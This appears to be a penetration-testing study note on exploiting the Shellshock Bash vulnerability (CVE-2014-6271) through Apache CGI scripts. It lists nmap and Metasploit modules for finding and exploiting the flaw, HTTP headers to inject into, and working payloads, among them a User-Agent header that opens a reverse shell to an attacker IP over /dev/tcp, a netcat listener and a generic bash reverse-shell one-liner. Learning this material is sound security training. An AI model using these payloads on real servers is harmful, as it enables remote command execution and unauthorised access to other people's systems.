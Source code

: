 ### **<mark style="background: #f39c12;">Shellshock (CVE-2014-6271):</mark>** 
is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.

---

**The Shellshock vulnerability:** is caused by a vulnerability in Bash, whereby Bash  
mistakenly executes trailing commands after a series of characters: **`() { :; };`**

In the context of remote exploitation, **Apache web servers configured to run CGI**  
**scripts or .sh scripts are also vulnerable to this attack.**  

<mark style="background: #8e44ad;">**CGI (Common Gateway Interface)**</mark> scripts are used by Apache to execute arbitrary 
commands on the Linux system, after which the output is displayed to the client.

---
### In order to exploit this vulnerability:
you will need to locate an **<mark style="background: #0b5345;">"input vector"</mark>** or <mark style="background: #0b5345;">**"script"**</mark>  **that allows you to communicate with Bash**.


### ** <mark style="background: #ABF7F7A6;">nmap scripts</mark>  to test if shellshock exists:**
**`http-shellshock --script-args uri=<target uri>`**

![[cgi_script.png]]

##### Example: `└─# nmap 192.89.14.3 --script=http-shellshock --script-args uri="http://192.89.14.3/gettime.cgi"`  
<br>
<br>  

### **<mark style="background: #FF5582A6;">MSF module</mark> :**

scans for shellshock vulnerability

- **`auxiliary/scanner/http/apache_mod_cgi_bash_env`**


exploits it

- **`exploit/multi/http/apache_mod_cgi_bash_env`**

1. Set the RHOSTS to the target webapp  
2. Set the TARGETURI to the cgi path: `set TARGETURI /gettime.cgi`  
3. Set the LHOSTS to ur local IP (Not loopback)
### ***Exploiting via HTTP header in CGI request,***  there is various http headers to inject :

- **User-Agent**
- **Referer**
- **X-Forwarded-For**
- **X-Requested-With**
- **Host**
- **Cookie**
- **Accept**

### **Example:** `User-Agent : () { :; }; /bin/bash -c "echo hacked"`

#### you might need to use echo :

**`User-Agent : () { :; }; echo; echo; /bin/bash -c "echo hacked"`**

### Example for creating a <mark style="background: #e74c3c;">reverse shell</mark>:
Listen to a port with Netcat:
- `nc -lvnp 7777`

Then put this in the User Agent field in Burb Suite:
- `User-Agent : () { :; }; echo; echo; /bin/bash -c "sh -i >& /dev/tcp/192.141.236.2/7777 0>&1"` Change to ur IP and port listening to

#### Simple bash reverse shell command :

**`bash -i >& /dev/tcp/<ip>/<port> 0>&1`**

# Create Reverse Shells easily: 
<mark style="background: #f1c40f;">🔙🐚</mark> https://www.revshells.com/ 